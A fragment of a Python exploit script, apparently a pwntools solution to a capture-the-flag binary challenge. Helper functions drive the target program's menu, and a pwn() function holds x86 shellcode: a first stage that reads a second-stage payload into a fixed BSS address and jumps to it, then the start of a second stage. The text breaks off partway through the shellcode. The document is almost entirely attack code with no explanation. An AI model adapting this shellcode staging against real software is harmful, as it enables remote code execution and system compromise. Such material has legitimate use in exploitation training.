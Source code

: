 ```
    return ru('option:n')
def setarch(index):
    menu()
    sl('4')
    menu()
    sl(str(index))
    return
def genshellcode():
    menu()
    sl('3')
    return
def setcall(name):
    menu()
    sl('1')
    ru('name:')
    sl(name)
    return
def addcall(name, num, argcount, args):
    menu()
    sl('2')
    ru('name')
    sl(name)
    ru('number')
    sl(str(num))
    ru('(argc)')
    sl(str(argcount))
    for pair in args:
        ru('stop')
        sl(str(pair[0]))
        ru('value')
        sl(pair[1])
    ru('stop')
    sl('0')
    return
def leavemsg(length, content):
    menu()
    sl('5')
    ru('length')
    sl(str(length))
    ru('message')
    if len(content) != length: sl(content)
    else: sn(content)
    return
# define exploit function here
def pwn():
    if DEBUG: gdb.attach(io)
    # uid = 0
    shell_stage1 = '''
    #define BSS_ADDR 0x0814D010
    xor eax, eax
    mov al, 3
    xor ebx, ebx
    mov ecx, BSS_ADDR
    mov edx, 0x12345678
    int 0x80
    mov eax, BSS_ADDR
    call eax
    xor eax, eax
    inc eax
    int 0x80
    '''
    shellasm = '''
    #define PUTS_ADDR 0x08048D30
```